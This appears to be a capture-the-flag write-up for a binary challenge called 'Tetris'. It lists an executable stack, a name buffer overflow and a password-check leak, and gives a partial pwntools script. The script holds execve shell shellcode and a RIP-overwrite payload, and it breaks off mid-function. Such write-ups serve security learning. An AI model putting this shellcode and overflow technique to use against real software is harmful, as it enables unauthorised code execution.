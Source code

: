 
Tetris
===========================

General overview of problems faced
-------------------------------------
Made my brain hurt trying to bypass the null checks in the shellcode (especially clearing the `rax` register). It was also not immediately obvious how to get an address to jump to for the shellcode to run.

List of vulnerabilities
--------------------
- executable stack frame
- set_name() allocates name 0x26 (38) characters but reads up to 70 characters (extra 32 characters)
- Vulnerability in password check allows arbitrary read of address of password variable
    - reads 0x63 (99) bytes for password, password length of 0x54 (84) is accepted


Steps to exploit
------------------
- Construct shellcode exploit which will be stored in the password buffer. This buffer must be padded to 83 characters (plus an additional 84th null byte) to allow for a stack pointer to be revealed. Additionally, shellcode must be cleared of null bytes since fgets will terminate before 
- Identify return address offset in set_name using cyclic (48) and construct a buffer overflow exploit which overwrites RIP with the stack pointer found in the previous step. 

Script/Command used
------------------
```python

def runner(send):
    P.recvuntil(b'[q]uit', drop=True)
    if(send in ['s', 'v', 'p', 'c', 'q']):
        P.sendline(send.encode())

shellcode = asm(
    "push 0x68\n"                 
    "mov rax, 0x68732f2f6e69622f\n"  
    "push rax\n"                  
    "mov rdi, rsp\n"              
    "xor esi, esi\n"              
    "push rsi\n"                  
    "mov rsi, rsp\n"              
    "xor edx, edx\n"              
    "push 0x3b\n"                 
    "pop rax\n"                   
    "syscall\n"                   
)

context.arch = "amd64"
shellcode = asm(shellcraft.amd64.linux.sh())


def set_name():
    runner('s')
    offset_from_rbp = 48 # found using cyclic
    payload = b'A' * offset_from_rbp + p64(0x0) + p64(STACK_POINTER)
    log.info(f"Sending payload of length {len(payload)}: {payload}")
    P.sendline(payload)

def enter_password():
    global STACK_POINTER
    runner('p')
    P.recvline()
    filler = b'\x90'
```